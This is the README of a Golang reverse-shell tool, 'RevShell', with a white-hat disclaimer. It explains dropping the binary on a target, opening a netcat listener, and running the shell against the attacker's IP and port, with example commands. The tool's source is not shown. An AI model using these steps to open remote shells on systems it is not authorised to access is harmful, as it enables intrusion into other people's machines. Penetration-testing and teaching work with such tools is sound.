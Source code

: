 # RevShell

Simple reverse shell written in Golang. Similar shells have been written by others.

## Disclaimer 

This is for educational and white-hat purposes only.

The author of this repository takes no responsibility for anything you do with the
code provided. 

_!!! YOUR ACTIONS ARE YOUR OWN !!!_

## Basic Overview

To get the reverse shell working, deploy ("drop") the compiled binary onto the target
and open up a listener on your "attacking" machine.

A simple way to open up a listener is by using netcat:

```bash
nc -lvnp <YOUR_PORT_HERE>
```

By default, the reverse shell will attempt to connect to `5555`.

After the listener is setup, have the shell binary execute and point to your listener
machine's IP address and port by providing the `-l` argument and `-p` argument 
(if the listening port is not `5555`).

Example:

```bash
./revshell.out -l 123.456.1.1 -p 12345
```